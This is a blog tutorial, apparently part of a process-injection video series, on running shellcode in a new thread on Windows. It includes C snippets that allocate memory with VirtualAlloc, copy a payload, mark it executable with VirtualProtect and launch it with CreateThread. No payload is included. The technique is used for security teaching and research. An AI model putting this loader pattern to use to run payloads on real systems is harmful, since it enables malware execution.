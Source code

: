 ```yaml
---
layout: post
title:  "Executing payload locally using shellcode."
---
```


### Executing payload locally using shellcode.

## Introduction

If you're delving into the world of shellcode execution, one of the simplest and direct approaches involves initiating its runtime through the creation of a new thread. This technique leverages Windows APIs such as VirtualAlloc, VirtualProtect, and CreateThread to efficiently run your shellcode. The focus here is on simplicity, with no emphasis on evasion or obfuscation techniques. Let's explore the basic steps to get you started on executing shellcode using threads.

## Section 1: Getting Started

Getting Started with Running Shellcode Using Threads

### Utilized functions from the Windows APIs
- **VirtualAlloc:** Reserves, commits, or changes the state of a region of pages in the virtual address space of the calling process

- **RtlMoveMemory:** Copies the contents of a source memory block to a destination memory block, and supports overlapping source and destination memory blocks.

- **VirtualProtect:** Changes the protection on a region of committed pages in the virtual address space of the calling process.

- **CreateThread:** Creates a thread to execute within the virtual address space of the calling process.

### Flow of the Program (key steps)

- **Memory Allocation:** A critical step involves reserving and committing memory for the payload using the VirtualAlloc function. The allocated memory, referred to as exec_mem, is initially set to read and write.

```c
void *exec_mem;
BOOL rv;
HANDLE th;
DWORD oldprotect = 0;
exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);```

- Copy Payload: The payload is then copied to the newly allocated buffer using the RtlMoveMemory function. This sets the stage for the actual execution.

```c
 RtlMoveMemory(exec_mem, payload, payload_len);```

- Memory Protection: To enable execution, the protection of the allocated memory is adjusted using VirtualProtect. The memory is now set to be executable and readable, paving the way for the payload's execution.

```c
rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);```

- Thread Creation: Assuming successful memory protection, a new thread (th) is spawned using CreateThread. The thread is tasked with executing the code residing at the address pointed to by exec_mem. To maintain control flow and observe the execution, the program waits for the created thread to finish using WaitForSingleObject.

```c
if (rv != 0) {
th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
WaitForSingleObject(th, -1);} ```

<iframe width="853" height="480" src="https://www.youtube.com/embed/RuDwyIZdduc" title="Process Injection 0 - Executing payload locally using shellcode." frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>



